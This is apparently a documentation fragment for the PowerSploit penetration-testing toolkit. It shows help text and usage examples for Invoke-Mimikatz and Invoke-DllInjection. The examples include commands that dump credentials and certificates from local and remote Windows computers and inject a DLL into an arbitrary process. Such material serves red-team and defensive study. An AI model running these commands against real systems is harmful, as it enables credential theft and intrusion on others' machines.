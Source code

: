 ```
    Required Dependencies: Mimikatz (included)
    Optional Dependencies: None
    Version: 1.5
    ReflectivePEInjection version: 1.1
    Mimikatz version: 2.0 alpha (2/16/2015)

    -------------------------- EXAMPLE 1 --------------------------

    C:\PS>Execute mimikatz on the local computer to dump certificates.


    Invoke-Mimikatz -DumpCerts


    -------------------------- EXAMPLE 2 --------------------------

    C:\PS>Execute mimikatz on two remote computers to dump credentials.


    Invoke-Mimikatz -DumpCreds -ComputerName @("computer1", "computer2")


    -------------------------- EXAMPLE 3 --------------------------

    C:\PS>Execute mimikatz on a remote computer with the custom command
    "privilege::debug exit" which simply requests debug privilege and exits


    Invoke-Mimikatz -Command "privilege::debug exit" -ComputerName "computer1"


PS >
```

Or simply look at the whole help available for Invoke-DllInjection.

```
PS > Get-Help Invoke-DllInjection -full

NAME
    Invoke-DllInjection

SYNOPSIS
    Injects a Dll into the process ID of your choosing.

    PowerSploit Function: Invoke-DllInjection
    Author: Matthew Graeber (@mattifestation)
    License: BSD 3-Clause
    Required Dependencies: None
    Optional Dependencies: None

SYNTAX
    Invoke-DllInjection [-ProcessID] <Int32> [-Dll] <String>
    [<CommonParameters>]


DESCRIPTION
    Invoke-DllInjection injects a Dll into an arbitrary process.


PARAMETERS
    -ProcessID <Int32>
        Process ID of the process you want to inject a Dll into.

```